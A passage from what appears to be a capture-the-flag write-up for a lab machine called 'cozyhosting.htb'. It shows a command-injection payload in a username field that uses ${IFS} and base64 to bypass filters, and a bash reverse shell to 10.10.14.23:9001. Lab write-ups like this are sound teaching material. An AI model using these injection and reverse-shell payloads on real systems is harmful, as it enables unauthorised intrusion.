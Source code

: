 ```shell
echo "ping 10.10.14.23" |base64
```

Result:

```text
cGluZyAxMC4xMC4xNC4yMwo=
```

This give the final payload :

```text
;echo${IFS}"cGluZyAxMC4xMC4xNC4yMwo="|base64${IFS}-d|bash;
```

with a few `${IFS}` to replace spaces, and a base64 encoded payload.

We need to dump network packets to see the ping calling back our host :

```shell
tcpdump -i tun0
```

Result :

```
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 1, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 1, length 64
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 2, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 2, length 64
IP cozyhosting.htb > 10.10.14.23: ICMP echo request, id 2, seq 3, length 64
IP 10.10.14.23 > cozyhosting.htb: ICMP echo reply, id 2, seq 3, length 64
...
```

We have a ping ! We are able to execute commands on the remote target!

## Initial access

### Exploitation

By using this RCE, we can execute a reverse shell.

[https://www.revshells.com/](https://www.revshells.com/)

We can forge a reverse shell command :

```shell
echo "bash -i >& /dev/tcp/10.10.14.23/9001 0>&1" | base64
```

Result:

```text
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy85MDAxIDA+JjEK
```

The complete payload (in the username field):

```
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy85MDAxIDA+JjEK"|base64${IFS}-d|bash;
```
